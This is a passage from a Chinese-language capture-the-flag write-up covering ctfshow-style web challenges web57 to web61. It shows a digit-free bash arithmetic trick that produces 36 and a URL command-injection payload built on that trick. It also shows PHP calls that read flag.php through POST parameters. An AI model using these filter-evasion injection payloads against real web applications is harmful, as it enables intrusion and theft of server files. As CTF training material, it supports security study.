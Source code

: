 验证：



```bash
┌──(amateur㉿kali)-[~]
└─$ echo $((~$(($((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))))))
36
```

payload:



```html
url/?c=$((~$(($((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$(
```

![image-20220317211458425](https://img-blog.csdnimg.cn/img_convert/4d22375dd918b57496cbfbb62cb67bf5.png)

# web58

![image-20220317211629048](https://img-blog.csdnimg.cn/img_convert/3bd1f453a9d5183f4d55d8e8e3dbd3b3.png)

这道题需要post传参，可以通过高亮显示php文件

> show_source("flag.php");
>
> highlight_file("flag.php");

![image-20220318195111259](https://img-blog.csdnimg.cn/img_convert/2fc6218b093af94356ed838c3e372f56.png)

# web59

![image-20220318195323992](https://img-blog.csdnimg.cn/img_convert/c8d2a1daaed8bec50ddbd9adf5d0162f.png)

同上

![image-20220318195407992](https://img-blog.csdnimg.cn/img_convert/4c90c89d4f3d3079ea8bad38709d37e6.png)

# web60

同上

# web61

同上
